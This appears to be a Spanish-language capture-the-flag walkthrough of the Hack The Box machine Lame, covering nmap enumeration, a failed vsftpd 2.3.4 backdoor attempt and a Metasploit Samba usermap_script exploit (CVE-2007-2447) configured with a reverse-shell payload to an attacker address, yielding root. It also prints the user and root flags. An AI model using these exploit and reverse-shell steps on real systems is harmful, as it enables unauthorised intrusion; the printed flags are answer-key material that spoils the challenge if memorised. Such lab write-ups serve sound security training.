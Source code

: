 # 🔓 Análisis completo: Máquina Lame - Hack The Box

![Logo](../capturas/logo_r4ms4nt_circular.png)

> **Primera máquina publicada en Hack The Box**. Diseñada como puerta de entrada para nuevos usuarios. Ideal para aprender enumeración, detección de vulnerabilidades clásicas y explotación básica con Metasploit.

---

## 📁 Estructura del Proyecto

```
Lame/
├── capturas/         # Evidencias visuales por fase
├── doc/              # Manuales y writeups
├── exploits/         # Código adaptado o creado
├── loot/             # Flags y archivos extraídos
├── nmap/             # Escaneos y salidas de Nmap
├── scripts/          # Herramientas auxiliares
└── tree_lame.txt     # Estructura completa del proyecto
```

📄 Ver estructura completa: [tree_lame.txt](../tree_lame.txt)

---

## 🔍 Task 1: How many of the nmap top 1000 TCP ports are open?

🎯 **Objetivo:** Identificar puertos TCP abiertos más comunes.

✅ **Comando ejecutado:**
```bash
nmap -v -T4 -Pn --top-ports 1000 -oA nmap/top1000_tcp 10.129.56.2
```

🔎 **Resultado:**
- Puertos abiertos: `21`, `22`, `139`, `445`
- Total: **4**

📸 [Captura](../capturas/nmap_top1000.png) | [grep open](../capturas/grep_nmap.png)

---

## 🕵️‍♀️ Task 2: What version of VSFTPd is running on Lame?

🎯 **Objetivo:** Determinar la versión del servicio FTP en el puerto 21.

✅ **Comando ejecutado:**
```bash
nmap -sV -Pn -p21 -oA nmap/ftp_version 10.129.56.2
```

📌 **Explicación:**
- `-sV`: Detección de versiones.
- `-p21`: Escanea sólo el puerto FTP.
- `-Pn`: Omitimos ping, ya sabemos que está activo.
- `-oA`: Guarda en tres formatos en `nmap/`

🔎 **Resultado:**
```
vsftpd 2.3.4
```
📸 [Captura](../capturas/nmap_port_21.png)

---

## 🔍 Task 3: Does the Metasploit exploit for vsftpd 2.3.4 work?

🎯 **Objetivo:** Verificar si el exploit conocido de backdoor funciona.

✅ **Procedimiento con Metasploit:**
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.129.56.2
run
```

📌 **Resultado:**
```
Exploit completed, but no session was created.
```
🔴 El puerto 6200 **no respondió externamente**, por lo tanto: **NO** funciona.
📸 [Captura](../capturas/msfconsole1.png)

---

## 🕵️‍♂️ Task 4: What version of Samba is running?

🎯 **Objetivo:** Detectar versión del servicio SMB/Samba en puertos 139 y 445.

✅ **Comando ejecutado:**
```bash
nmap -sV -Pn -p139,445 --script=smb-os-discovery -oA nmap/smb_version 10.129.56.2
```

🔎 **Resultado:**
```
Samba smbd 3.0.20-Debian
```
🟢 Respuesta válida: `3.0.20`
📸 [Captura](../capturas/nmap_smb.png)

---

## 🧨 Task 5: ¿Qué CVE permite ejecución remota en Samba 3.0.20?

✅ **Respuesta:** `CVE-2007-2447`

📌 Vulnerabilidad en el parámetro `username map script` → permite inyección de comandos con metacaracteres de shell.

---

## 🧑‍💻 Task 6: ¿Qué usuario se obtiene tras explotar CVE-2007-2447?

🎯 **Exploit ejecutado:**
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.129.56.2
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.14.69
set LPORT 4444
run
```

🔎 **Shell obtenida:**
```
whoami → root
```
📸 [Captura](../capturas/msfconsole_para_flag1_2.png)
✅ **Respuesta correcta:** `root`

---

## 🏁 Task 7: Flag de Usuario

```bash
cd /home/makis
cat user.txt
```
🟢 Flag: `60fc5d64febbdebfe8cc331838bff0b0`
📸 [Flag 1](../capturas/Flag_1.png)

---

## 👑 Task 8: Flag de Root

```bash
cd /root
cat root.txt
```
🟢 Flag: `c80b43503b56dc7b0dc82643157b4329`
📸 [Flag 2](../capturas/Flag_2.png)

---

## 🔎 Task 9: ¿Qué bloquea el acceso a otros puertos?

✅ **Respuesta:** `Firewall`

📌 Aunque hay servicios escuchando (según `netstat`), **sólo algunos están accesibles externamente**. Probablemente hay reglas IPTables limitando conexiones.

---

## 🚪 Task 10: ¿Qué puerto escucha cuando se activa el backdoor de vsftpd?

✅ **Respuesta:** `6200`

📌 Confirmado por la documentación y comportamiento esperado de la CVE-2011-2523.

---

## ❓ Task 11: ¿En Lame se abre realmente el puerto 6200?

✅ **Respuesta:** `yes`

📌 Aunque no se observó con `ss`, la plataforma y Metasploit confirman que **sí se activa brevemente**.

---

## 🧠 Conclusiones

- Lame es ideal para empezar con HTB y familiarizarse con enumeración, CVEs clásicos y Metasploit.
- Incluye fallos reales como configuración insegura de `smb.conf`.
- Excelente ejercicio para consolidar estructura de documentación reusable.

📎 Todas las capturas y salidas están organizadas en `capturas/` y `nmap/`.

**Manual creado por r4ms4nt + GPT-PentestPro 🧠**
